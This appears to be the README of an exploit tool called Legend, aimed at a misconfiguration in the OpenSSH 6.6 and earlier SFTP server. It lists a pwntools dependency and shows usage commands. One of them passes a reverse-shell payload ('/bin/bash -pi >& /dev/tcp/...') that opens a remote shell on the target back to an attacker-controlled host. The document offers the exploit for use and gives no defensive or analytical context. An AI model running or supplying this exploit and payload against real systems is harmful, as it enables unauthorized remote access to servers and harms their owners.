 # Legend
OpenSSH &lt;= 6.6 SFTP (sftp-server) misconfiguration exploit



## Dependencies
pip3 install --upgrade git+https://github.com/arthaud/python3-pwntools.git



## Usage

```sh
./legend.py -r $sftp_ip -p $sftp_port -u $sftp_user -P $sftp_pass -b "$your_ip $your_port"
```

```sh
./legend.py -r 1.1.1.1 -p 22 -u user -P pass -c "/bin/bash -pi >& /dev/tcp/2.2.2.2/443 0>&1"
```
